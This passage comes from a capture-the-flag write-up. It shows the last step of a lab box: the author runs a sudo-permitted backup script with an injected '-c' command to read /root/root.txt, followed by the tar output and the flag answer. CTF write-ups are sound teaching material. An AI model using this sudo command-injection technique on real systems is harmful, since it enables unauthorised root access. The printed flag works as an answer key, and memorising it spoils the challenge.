 ```
tar: /home/alex/Music/song1.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song2.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song3.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song4.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song5.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song6.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song7.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song8.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song9.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song10.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song11.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song12.mp3: Cannot stat: No such file or directory
tar: Exiting with failure status due to previous errors

Backup finished
root.txt
```
- Second: We know the path, so we can try to read **root.txt**
```
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh -c "cat /root/root.txt"
/home/alex/Music/image12.mp3
/home/alex/Music/image7.mp3
/home/alex/Music/image1.mp3
/home/alex/Music/image10.mp3
/home/alex/Music/image5.mp3
/home/alex/Music/image4.mp3
/home/alex/Music/image3.mp3
/home/alex/Music/image6.mp3
/home/alex/Music/image8.mp3
/home/alex/Music/image9.mp3
/home/alex/Music/image11.mp3
/home/alex/Music/image2.mp3
find: '/run/user/108/gvfs': Permission denied
Backing up /home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3 to /etc/mp3backups//ubuntu-scheduled.tgz

tar: Removing leading `/' from member names
tar: /home/alex/Music/song1.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song2.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song3.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song4.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song5.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song6.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song7.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song8.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song9.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song10.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song11.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song12.mp3: Cannot stat: No such file or directory
tar: Exiting with failure status due to previous errors

Backup finished
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```
**Answer** 
#### flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}

